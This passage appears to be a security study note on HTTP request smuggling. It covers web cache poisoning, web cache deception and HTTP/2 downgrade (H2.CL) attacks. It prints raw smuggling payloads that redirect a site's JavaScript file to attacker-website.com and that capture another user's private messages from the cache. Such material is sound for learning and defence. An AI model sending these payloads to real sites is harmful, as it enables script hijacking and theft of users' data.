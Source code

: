 ```
HTTP/1.1 301 Moved Permanently
Location: //attacker-website.com/example/
```
## Using HTTP request smuggling to perform web cache poisoning
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 59
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /static/include.js HTTP/1.1
Host: vulnerable-website.com
```
The smuggled request reaches the back-end server, which responds as before with the off-site redirect. The front-end server caches this response against what it believes is the URL in the second request, which is /static/include.js: 
```
GET /static/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```
## Using HTTP request smuggling to perform web cache deception
In web cache deception, the attacker causes the application to store some sensitive content belonging to another user in the cache, and the attacker then retrieves this content from the cache.  
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```
## HTTP/2 request smuggling
HTTP/2 messages are sent over the wire as a series of separate "frames". Each frame is preceded by an explicit length field, which tells the server exactly how many bytes to read in. Therefore, the length of the request is the sum of its frame lengths.  
n theory, this mechanism means there is no opportunity for an attacker to introduce the ambiguity required for request smuggling, as long as the website uses HTTP/2 end to end. In the wild, however, this is often not the case due to the widespread but dangerous practice of HTTP/2 downgrading.  
HTTP/2 downgrading is the process of rewriting HTTP/2 requests using HTTP/1 syntax to generate an equivalent HTTP/1 request. Web servers and reverse proxies often do this in order to offer HTTP/2 support to clients while communicating with back-end servers that only speak HTTP/1.  
## H2.CL vulnerabilities
HTTP/2 requests don't have to specify their length explicitly in a header. During downgrading, this means front-end servers often add an HTTP/1 Content-Length header  
HTTP/2 requests can also include their own content-length header. In this case, some front-end servers will simply reuse this value in the resulting HTTP/1 request.  
It may be possible to smuggle requests by injecting a misleading content-length header.  
We need to enable feature `Allow HTTP/2 ALPN override` in Repeater  